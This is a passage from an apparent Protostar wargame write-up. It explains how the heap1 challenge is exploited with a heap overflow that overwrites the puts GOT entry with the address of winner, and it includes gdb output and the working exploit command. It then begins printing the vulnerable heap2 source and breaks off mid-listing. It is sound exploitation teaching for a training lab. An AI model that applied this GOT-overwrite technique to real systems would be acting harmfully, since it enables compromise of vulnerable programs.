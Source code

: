We can overwrite the address `i2.name` `(0x0804a038 @ 0x804a02c)` with the first `arg1` and write at that address with `arg2`. What do we wanna write (`arg2`) and where (`arg1`)?

The answer to the first question is clear, we want to write the address of  `winner` : `0x08048494` -> `\x94\x84\x04\x08`

For the second question, we can overwrite the address of `puts`! Since the `printf` at the end of the main does not have second argument, the compiler will optimize and use `puts` instead of `printf` and blablabla that's it! Note that in `winner` instead we'll call `printf` since a second argument has been provided!)

Address of `puts`: `0x08048566 -> \x66\x85\x04\x08`

```
(gdb) disass puts
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    *0x8049774  <--- BINGO (address of Global Offset Table)
0x080483d2 <puts@plt+6>:	push   $0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c

```

```
user@protostar:/opt/protostar/bin$ ./heap1 $(python -c "print 'A'*20 + '\x74\x97\x04\x08'") $(python -c "print '\x94\x84\x04\x08'")
and we have a winner @ 1617124716
```

#### `heap2`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
```